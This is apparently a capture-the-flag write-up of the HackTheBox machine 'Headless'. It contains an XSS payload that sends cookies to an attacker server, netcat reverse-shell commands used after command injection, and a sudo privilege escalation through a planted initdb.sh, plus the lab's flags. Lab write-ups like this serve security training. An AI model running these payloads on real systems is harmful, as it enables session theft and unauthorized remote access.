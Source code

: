 ```yaml
---
layout: post
title: "HTB Linux Easy: Headless"
description: "Headless is an Easy rated Linux machine on HTB."
categories: [CTF,HTB]
tags: [Linux,Easy]
author: g
---
```


## Nmap Scan
```bash
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV -p 5000 10.129.53.93
Starting Nmap 7.94SVN ( <https://nmap.org> ) at 2024-03-23 15:13 EDT
Nmap scan report for 10.129.53.93
Host is up (0.018s latency).

PORT     STATE SERVICE VERSION
5000/tcp open  upnp?
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/2.2.2 Python/3.11.2
|     Date: Sat, 23 Mar 2024 19:13:59 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 2799
|     Set-Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs; Path=/
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="UTF-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <title>Under Construction</title>
|     <style>
|     body {
|     font-family: 'Arial', sans-serif;
|     background-color: #f7f7f7;
|     margin: 0;
|     padding: 0;
|     display: flex;
|     justify-content: center;
|     align-items: center;
|     height: 100vh;
|     .container {
|     text-align: center;
|     background-color: #fff;
|     border-radius: 10px;
|_    box-shadow: 0px 0px 20px rgba(0, 0, 0, 0.2);

Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 22.01 seconds                                
```


### Enumerate HTTP (Port 5000)

![Pasted image 20240715111852.png](/images/Pasted image 20240715111852.png){: .normal }


Found subdirectory using Dirsearch.
```bash
┌──(kali㉿kali)-[~]
└─$ dirsearch -u <http://10.129.53.93:5000>
  _|. _ _  _  _  _ _|_    v0.4.3                                                                                                                             
 (_||| _) (/_(_|| (_| )                                                                                                                                      

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/kali/reports/http_10.129.53.93_5000/_24-03-23_15-20-17.txt

Target: <http://10.129.53.93:5000/>

[15:20:17] Starting:                                                                                                                                         
[15:24:37] 401 -  317B  - /dashboard                                        
[15:27:25] 200 -    2KB - /support                                           
   
Task Completed 
```

Cookie value:
```bash
Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs
# Base64 decoded --> "user".uAlmXlTvm8vyihjNaPDWnvB_Zfs
```

Using an XSS payload in the contact form.
![Pasted image 20240715111838.png](/images/Pasted image 20240715111838.png){: .normal }


Authorized cookie found using XSS in the user agent.
```bash
# Save request in burp (set user agent to FUZZ)

ffuf -ic -c -of csv  -request-proto http -request support.req -w xss.txt
# Payload: <img src=x onerror=fetch('<http://ip/'+document.cookie>);>
```

```bash
┌──(kali㉿kali)-[~]
└─$ python3 -m http.server 80                                                                 
Serving HTTP on 0.0.0.0 port 80 (<http://0.0.0.0:80/>) ...
10.129.185.190 - - [24/Mar/2024 03:01:30] code 404, message File not found
10.129.185.190 - - [24/Mar/2024 03:01:30] "GET /is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0 HTTP/1.1" 404 -
```

We now have access to the dashboard.
![Pasted image 20240715111831.png](/images/Pasted image 20240715111831.png){: .normal }


Command injection is possible when we intercept the request.
![Pasted image 20240715111827.png](/images/Pasted image 20240715111827.png){: .normal }


Reverse shell payload:
```bash
nc -e /bin/sh 10.10.14.26 443
```

Shell as dvir.
```bash
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.26] from (UNKNOWN) [10.129.53.93] 40440
id
uid=1000(dvir) gid=1000(dvir) groups=1000(dvir),100(users)
```

User flag: `93952774a10ce25343527204aab9f377`
```bash
cat user.txt 
93952774a10ce25343527204aab9f377
```


## Privilege Escalation

Sudo -l output:
```bash
sudo -l
Matching Defaults entries for dvir on headless:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\\:/usr/local/bin\\:/usr/sbin\\:/usr/bin\\:/sbin\\:/bin,
    use_pty

User dvir may run the following commands on headless:
    (ALL) NOPASSWD: /usr/bin/syscheck
```

Looks like the syscheck binary executes initdb.sh.
```bash
strings /usr/bin/syscheck
#!/bin/bash
if [ "$EUID" -ne 0 ]; then
  exit 1
last_modified_time=$(/usr/bin/find /boot -name 'vmlinuz*' -exec stat -c %Y {} + | /usr/bin/sort -n | /usr/bin/tail -n 1)
formatted_time=$(/usr/bin/date -d "@$last_modified_time" +"%d/%m/%Y %H:%M")
/usr/bin/echo "Last Kernel Modification Time: $formatted_time"
disk_space=$(/usr/bin/df -h / | /usr/bin/awk 'NR==2 {print $4}')
/usr/bin/echo "Available disk space: $disk_space"
load_average=$(/usr/bin/uptime | /usr/bin/awk -F'load average:' '{print $2}')
/usr/bin/echo "System load average: $load_average"
if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
exit 0
```

Create the initdb.sh script.
```bash
touch initdb.sh
chmod +x initdb.sh
echo "nc -e /bin/sh 10.10.14.26 443" > initdb.sh 
```

Now we can execute the syscheck binary with sudo.
```bash
sudo syscheck
```

Shell as root:
```bash
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.26] from (UNKNOWN) [10.129.53.93] 44638
id
uid=0(root) gid=0(root) groups=0(root)
```

Root flag: `62bd5afddfd8de3d2f63a9163da53f45`
```bash
cat root.txt
62bd5afddfd8de3d2f63a9163da53f45
```